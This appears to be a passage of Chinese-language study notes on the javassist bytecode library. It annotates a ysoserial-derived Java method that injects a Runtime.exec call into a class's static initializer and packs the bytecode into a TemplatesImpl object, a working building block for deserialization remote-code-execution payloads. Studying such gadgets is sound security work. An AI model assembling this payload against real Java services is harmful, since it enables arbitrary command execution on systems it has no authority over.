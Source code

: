 ### javassist 字节码操作库

项目地址：https://github.com/jboss-javassist/javassist

该库提供了在运行时操作Java字节码的方法，如在已有 Class 中动态修改和插入 Java 代码

在[payload](https://gist.github.com/frohoff/24af7913611f8406eaf3)中，作者使用javassist 来构造包含恶意代码的class

```java
public static TemplatesImpl createTemplatesImpl(final String command) throws Exception {
    // 利用TemplatesImpl类来触发恶意的bytescode
    final TemplatesImpl templates = new TemplatesImpl();

    // 获取容器ClassPool，注入classpath
    ClassPool pool = ClassPool.getDefault();
    System.out.println("insertClassPath: " + new ClassClassPath(StubTransletPayload.class));
    pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));

    // 获取已经编译好的类
    System.out.println("ClassName: " + StubTransletPayload.class.getName());
    final CtClass clazz = pool.get(StubTransletPayload.class.getName());

    // 在静态的的构造方法中插入payload
    clazz.makeClassInitializer()
            .insertAfter("java.lang.Runtime.getRuntime().exec(\""
                    + command.replaceAll("\"", "\\\"")
                    + "\");");

    // 给payload类设置一个名称
    // unique name to allow repeated execution (watch out for PermGen exhaustion)
    clazz.setName("ysoserial.Pwner" + System.nanoTime());

    // 获取该类的字节码
    final byte[] classBytes = clazz.toBytecode();

    // inject class bytes into instance
    Reflections.setFieldValue(
        templates,
        "_bytecodes",
        new byte[][] {
                classBytes,
                ClassFiles.classAsBytes(Foo.class)
        });

    // required to make TemplatesImpl happy
    Reflections.setFieldValue(templates, "_name", "Pwnr");
    Reflections.setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

    // 只要触发这个方法就能执行我们注入的bytecodes
    // templates.getOutputProperties();
    return templates;
}
```

